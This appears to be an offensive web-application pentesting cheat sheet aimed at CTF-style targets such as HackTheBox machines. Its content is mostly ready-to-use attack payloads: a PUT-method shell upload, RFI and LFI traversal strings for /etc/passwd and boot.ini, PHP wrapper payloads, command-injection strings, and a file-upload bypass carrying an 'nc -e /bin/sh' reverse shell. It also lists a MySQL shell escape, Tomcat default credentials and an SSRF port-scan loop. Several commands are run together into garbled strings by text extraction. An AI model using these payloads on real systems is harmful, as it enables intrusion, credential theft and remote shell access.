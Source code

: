 # Web Application

Checking HTTP Methods

```
curl -i -X OPTIONS http://XXXXnmap --script http-methods --script-args http-methods.url-path='/test' $ipCurl usagecurl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=0xdf&passwd=password"
```

Shell via Put Method

```
Put Shellcurl -X PUT -T "/path/to/file" "http://myputserver.com/puturl.tmp"curl -X MOVE --header  "Destination:http://ip/asp.asp" "http://ip/asp.txt"
```

RFI

```
$ fimap -u "http://$ip/example.php?test="$ https://github.com/lightos/Panoptic/
```

JBOSS

```
JMX Console http://$ip:8080/jmxconcole/​
```

Tomcat Manager Default Credentials

```
Tomcat manager, try default credentials: tomcat/tomcat, admin/manager, admin/password, admin/s3cret, admin (emtpy password).​
```

Command Injection

```
Command injection`id`| id&& iderror || id%0a id
```

File upload bypass

```
content-type:image/gifGIF89a ?ippsec=nc -e /bin/sh ip port
```

SQL Shell

```
msql -u root -p\! /bin/sh
```

LFI

```
 Linux../../../../../../../../../../etc/passwd..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd../../../../../../../../../../etc/passwd%00..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%2500​Windows../../../../../../../../../../boot.ini..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fboot.ini../../../../../../../../../../boot.ini%00..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fboot.ini%2500Wordlists/usr/share/wordlists/SecLists/Fuzzing/JHADDIX_LFI.txt
```

LFI Wrappers

```
LFI Wrappersexpect://http://x.x.x.x/blah?parameter=expect://whoamidata://http://x.x.x.x/blah?parameter=data://text/plain;base64,PD8gcGhwaW5mbygpOyA/Pg==# the base64 encoded payload is: input://http://x.x.x.x/blah?parameter=php://input# POST data (using Hackbar)
```

LFI to RCE

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20inclusion#wrapper-data​
```

SSRF

```
for i in $(seq 1 60000); do echo $i; curl -X GET http://ip:60000/url.php?path=http://localhost:$i/ 2> /dev/null | tr -d “\n”; done​
```
